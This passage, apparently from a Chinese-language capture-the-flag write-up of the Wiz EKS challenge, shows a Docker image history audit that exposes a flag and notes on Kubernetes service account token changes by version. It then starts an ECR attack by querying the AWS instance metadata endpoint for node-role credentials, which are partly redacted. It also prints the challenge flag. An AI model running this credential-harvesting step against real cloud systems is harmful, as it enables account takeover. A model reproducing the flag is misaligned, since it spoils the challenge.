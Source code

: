 审计整个 image 创建历史 

```
 docker history  add093cd268d --no-trunc   
# no trunc 防止过长的字符串被切割成小段
IMAGE                                                                     CREATED        CREATED BY                                                                                                                                                            SIZE      COMMENT
sha256:add093cd268deb7817aee1887b620628211a04e8733d22ab5c910f3b6cc91867   4 days ago     CMD ["/bin/sleep" "3133337"]                                                                                                                                          0B        buildkit.dockerfile.v0
<missing>                                                                 4 days ago     RUN sh -c echo 'wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}' > /flag.txt # buildkit   124B      buildkit.dockerfile.v0
<missing>                                                                 3 months ago   /bin/sh -c #(nop)  CMD ["sh"]                                                                                                                                         0B        
<missing>                                                                 3 months ago   /bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in /                                                                      4.26MB    
```


```
wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}
```

#### Other found

##### Kubernetes service account changes with version

- 1.20（含 1.20）之前的版本，在创建 sa 时会自动创建一个 secret，然后这个会把这个 secret 通过投射卷挂载到 pod 里，该 secret 里面包含的 token 是永久有效的。
- 1.21~1.23 版本，在创建 sa 时也会自动创建 secret，但是在 pod 里并不会使用 secret 里的 token，而是由 kubelet 到 TokenRequest API 去申请一个 token，该 token 默认有效期为一年，但是 pod 每一个小时会更新一次 token。
- 1.24 版本及以上，在创建 sa 时不再自动创建 secret 了，只保留由 kubelet 到 TokenRequest API 去申请 token

### Level3: Attack ECR

这里我们具有的权限为

```
pod: [get, list]

# but we are in the EKS and aws 
```

需要注意的是 **我们当前环境存在于 pod 中，而 pod 存在于 eks 中，也在 aws 上** ，这意味着我们可以尝试探索一下 是否存在 eks 绑定 role 的情况。

通过探测 `http://169.254.169.254/latest/meta-data/iam/security-credentials/` 可以获知以下 endpoint

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole
{"AccessKeyId":"ASIA2A[AKID]XMYUFF5J","Expiration":"2023-11-03 10:24:09+00:00","SecretAccessKey":"YPaIqb[AKSK]+I3nF","SessionToken":"FwoGZX[LONG ST]NrD6dG"}
```
